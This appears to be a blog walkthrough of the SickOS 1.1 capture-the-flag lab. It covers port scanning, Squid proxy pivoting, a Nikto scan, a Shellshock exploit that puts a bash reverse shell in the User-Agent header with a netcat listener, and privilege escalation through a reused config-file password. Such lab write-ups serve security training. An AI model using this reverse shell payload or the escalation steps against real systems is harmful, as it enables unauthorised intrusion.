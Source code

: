 ```yaml
---
layout: blog_item
title:  "SickOS 1.1 - Walkthrough"
date:   2024-01-11 11:00:10
author: Dhruv Ambaliya
description: 'SickOS 1.1 - Walkthrough / Writeup'
categories: [walkthroughs]
tags:
- CTF
---
```



<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa-solid fa-fire">Intermediate</i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

This CTF gives a clear analogy how hacking strategies can be performed on a network to compromise it in a safe environment. This vm is very similar to labs I faced in OSCP. The objective being to compromise the network/machine and gain Administrative/root privileges on them.

**Author:** [@D4rk36](https://twitter.com/D4rk36)

**Download:** [VulnHub](https://www.vulnhub.com)


## Host Enumeration

### Port Scanning

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 192.168.30.138

{% endhighlight %}


### Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 22</code></p></pc>
           </td>
           <td>
               <pc><p>SSH</p></pc>
           </td>
           <td>
               <pc><p>OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 3128</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP-Proxy</p></pc>
           </td>
           <td>
               <pc><p>Squid http proxy 3.1.19</p></pc>
           </td>
        </tr>

      </tbody>

</table>
</div>

## Squid Enumeration

Inspection of Squid using the metasploit module <code>auxiliary/scanner/http/squid_pivot_scanning</code> discovered port 80 was exposed via the proxy.

![Metasploit Squid Pivot Scanning](/img/blog/sickos/metasploit-squid-pivot-scanning.png)


## Nikto scan via Proxy

Nikto was configured to use the discovered Squid proxy:

{% highlight bash %}

[root:~]# nikto -h 192.168.221.138 -useproxy http://192.168.221.138:3128

{% endhighlight %}

Nikto disclosed the location <code>/cgi-bin/status</code>, indicating the target could be vulnerable to **shellshock**.

![Nikto Proxy Scan](/img/blog/sickos/nikto-proxy-scan.png)


## Shellshock Bash Reverse Shell

**Burp Suite** was used to manipulate <code>User-Agent:</code> to include the bash reverse shell.

{% highlight bash %}
() { ignored;};/bin/bash -i >& /dev/tcp/192.168.221.139/443 0>&1
{% endhighlight %}


![Burp Suite Shellshock Reverse Bash Shell](/img/blog/sickos/burp-shellshock-reverse-shell.png)

A reverse shell was established:

{% highlight bash %}

[root:~]# nc.traditional -lp 443 -vvv
listening on [any] 443 ...

192.168.221.138: inverse host lookup failed: Unknown host
connect to [192.168.221.139] from (UNKNOWN) [192.168.221.138] 59815
bash: no job control in this shell
www-data@SickOs:/usr/lib/cgi-bin$

{% endhighlight %}


## Local Enumeration

Local enumeration of the system disclosed the file <code>/var/www/wolfcms/config.php</code> containing:

{% highlight bash %}
// Database settings:
define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306');
define('DB_USER', 'root');
define('DB_PASS', 'john@123');
define('TABLE_PREFIX', '');
{% endhighlight %}

## Local Privilege Escalation

The previously discovered credentials worked for MySQL root, and were reused for the user <code>sickos</code> and again for <code>sudo</code> as the user <code>sickos</code>.

Local Privilege Escalation:

{% highlight bash %}

www-data@SickOs:/$ su - sickos
su - sickos
Password: john@123

sickos@SickOs:~$ ls
ls
sickos@SickOs:~$ cat .bash_history
cat .bash_history
sudo su
exit
sickos@SickOs:~$ sudo -s
sudo -s
[sudo] password for sickos: john@123

root@SickOs:~# cd /root  
cd /root
root@SickOs:/root# ls
ls
a0216ea4d51874464078c618298b1367.txt
root@SickOs:/root# cat a0216ea4d51874464078c618298b1367.txt
cat a0216ea4d51874464078c618298b1367.txt
If you are viewing this!!

ROOT!

You have Succesfully completed SickOS1.1.
Thanks for Trying


root@SickOs:/root#

{% endhighlight %}

### Root Flag

![Sickos 1.1 Root Flag](/img/blog/sickos/root-flag.png)

Thanks for the VM :)
